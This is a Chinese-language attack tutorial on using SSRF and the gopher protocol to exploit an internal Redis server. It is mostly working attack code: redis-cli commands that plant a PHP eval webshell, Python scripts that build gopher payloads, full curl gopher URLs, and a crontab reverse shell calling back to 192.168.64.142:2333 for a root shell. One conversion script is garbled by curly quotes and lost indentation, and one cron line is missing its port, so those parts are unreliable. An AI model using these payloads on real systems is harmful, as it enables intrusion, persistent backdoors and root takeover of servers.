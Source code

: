 ```yaml
---
title: gopher 攻击内网redis
id: zhfly3581
---
```


#### gopher 攻击内网redis

> 未授权访问redis条件存在限制，若开启了protected-mode，外网访问是不具有写入权限的；若绑定了127.0.0.1，那么外网将无法访问；但如果存在SSRF漏洞，那么通过Gopher协议可对本地redis进行攻击
> 
> Gopher协议是HTTP协议出现之前，在Internet上常常和常用的一个协议。当然现在Gopher协议已经慢慢淡出历史.Gopher
> 协议可以做很多事情，特别是在SSRF中可以发挥很多重要的作用。利用此协议可以攻击内网的FTP，Telnet，Redis，Memcache，也可以进行GET，POST请求。这无疑极大拓宽了SSRF的攻击面。
> 
> payload：gopher://www.0-sec.org:port/_payload

##### 写入webshell

将一下命令打包成gopher.sh文件

```
redis-cli -h $1 -p $2 set 1 '<?php eval($_POST["pass"]);?>'
redis-cli -h $1 -p $2 config set dir /var/www/html
redis-cli -h $1 -p $2 config set dbfilename bbb.php
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit 
```

使用socat进行端口转发

```
socat -v tcp-listen:4444,fork tcp-connect:localhost:6379 
```

将本地的4444端口转发到本地的6379端口。访问该服务器的4444端口，访问的其实是该服务器的6379端口。

执行`./gopher.sh 127.0.0.1 4444`，抓取到数据并写入`1.txt`：

![image](../img/25203ca53ff651f9cfff06972886415a.png)

**将捕捉到的转换为gopher格式**

**python转换脚本：**

```
f = open('1.txt', 'r')
s = ''
for line in f.readlines():
        line = line.replace(r"\r", "%0d%0a")
        line = line.replace("\n", '')
        s = s + line
print s.replace("$", "%24") 
```

此处需要注意，使用python脚本将流量内容转换后，还需要将一句话中的`$、?、;、[、]`这几个字符url编码，否则会提示`curl: (3) [globbing] illegal character in range specification at pos 103`

如果写入免杀的一句话，一步步fuzz即可。

**模拟ssrf访问**：

```
[root@localhost xm]# curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a%243%0d%0aset%0d%0a%241%0d%0a1%0d%0a%2429%0d%0a%3c%3fphp eval(%24_POST%5b"pass"%5d)%3b%3f%3e%0d%0a*4%0d%0a%246%0d%0aconfig%0d%0a%243%0d%0aset%0d%0a%243%0d%0adir%0d%0a%2413%0d%0a/var/www/html%0d%0a*4%0d%0a%246%0d%0aconfig%0d%0a%243%0d%0aset%0d%0a%2410%0d%0adbfilename%0d%0a%247%0d%0abbb.php%0d%0a*1%0d%0a%244%0d%0asave%0d%0a*1%0d%0a%244%0d%0aquit%0d%0a' 
```

![image](../img/43941514687041d5423bbd51761ade66.png)

成功在`/var/www/html/`下生成`bbb.php`

#### 反弹shell

> 文件名必须为root，此处靶机环境为centos7，其他Linux需要修改目录
> 
> 首先要明确第一点，用写入crontab的方式要求redis必须是root用户启动，否则无法正常执行

将下列内容写入gopher.sh中：

```
echo -e "\n\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.64.142 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit 
```

**本地监听**：

```
socat -v tcp-listen:4444,fork tcp-connect:localhost:6379 
```

执行`gopher.sh`并捕捉到流量，将其写入至`1.txt`：

![image](../img/17caee7f9d4b4e6b6fcc522b7e89ac91.png)

**将捕捉到的转换为gopher格式**

**python转换脚本：**

```
#coding: utf-8
import sys

exp = ‘’ `with open(sys.argv[1]) as f:

for line in f.readlines():

if line[0] in ‘><+’:

continue

elif line[-3:-1] == r’\r’:

if len(line) == 3:

exp = exp + ‘%0a%0d%0a’

else:

line = line.replace(r’\r’, ‘%0d%0a’)

line = line.replace(’\n’, ‘’)

exp = exp + line

elif line == ‘\x0a’:

exp = exp + ‘%0a’

else:

line = line.replace(’\n’, ‘’)

exp = exp + line

print exp` 
```

转换结果为：

```
*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$63%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/192.168.64.142/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a%0a%0a 
```

P.S. 需要注意的是，如果要换IP和端口，前面的$63也需要更改，$63表示字符串长度为63个字节

**模拟ssrf访问**：

```
[root@localhost xm]# curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$63%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/192.168.64.142/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a%0a%0a'
* About to connect() to 127.0.0.1 port 6379 (#0)
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
+OK
+OK
+OK
+OK 
```

在攻击机中`nc -lvp 2333`获得root权限shell

![image](../img/30983be7778194947bb7588c7fcb8faa.png)